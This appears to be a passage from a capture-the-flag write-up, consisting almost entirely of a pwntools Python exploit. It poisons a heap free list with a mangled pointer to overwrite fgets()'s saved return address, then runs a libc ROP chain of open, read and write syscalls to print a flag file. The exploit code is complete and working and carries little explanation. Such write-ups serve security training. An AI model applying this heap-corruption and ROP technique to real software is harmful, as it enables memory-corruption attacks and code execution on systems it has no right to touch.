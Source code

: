```python
free_letter(0)

payload = b"A" * 264 + p64(0x111)

# overwrite the saved rip of fgets()
saved_rip = stack_leak - 392 

# addr should be mangled 
payload += p64(saved_rip ^ ((ptr + 6928) >> 12))
malloc_letter(2, 304, payload)
print(f"saved rip of fgets(): {hex(saved_rip)}")

# pwntools ROP
# ORW syscalls are permitted (Open - Read - Write)
# use them to get the flag

flag = ptr + 7200
output = flag + 0x20

libc = ELF("./libc.so.6")
libc.address = libc_base
rop = ROP(libc)
payload = b"B" * 40
rop.call('syscall', [2, flag, 0, 0])
rop.call('syscall', [0, 3, output, 0x64])
rop.call('syscall', [1, 1, output, 0x64])

# gdb.attach(p)
# print(rop.dump())
malloc_letter(3, 256, b"aaaa")
malloc_letter(3, 256, payload + rop.chain())

p.interactive()
```
